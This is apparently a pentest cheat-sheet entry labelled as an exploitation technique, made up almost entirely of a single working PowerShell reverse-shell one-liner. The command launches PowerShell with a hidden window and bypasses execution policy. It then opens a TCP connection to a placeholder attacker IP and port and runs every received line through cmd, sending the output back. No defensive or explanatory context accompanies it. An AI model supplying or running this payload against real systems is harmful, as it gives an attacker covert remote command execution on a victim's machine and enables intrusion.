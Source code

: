 # [Exploitation] Reverse shell (TCPClient) --powershell
powershell -NoP -W Hidden -Exec Bypass -Command "$c=New-Object Net.Sockets.TCPClient('<attacker_ip>',<port>);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($n=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$n);$o=(cmd /c $d)2>&1; $r=[Text.Encoding]::ASCII.GetBytes($o);$s.Write($r,0,$r.Length);$s.Flush()}"
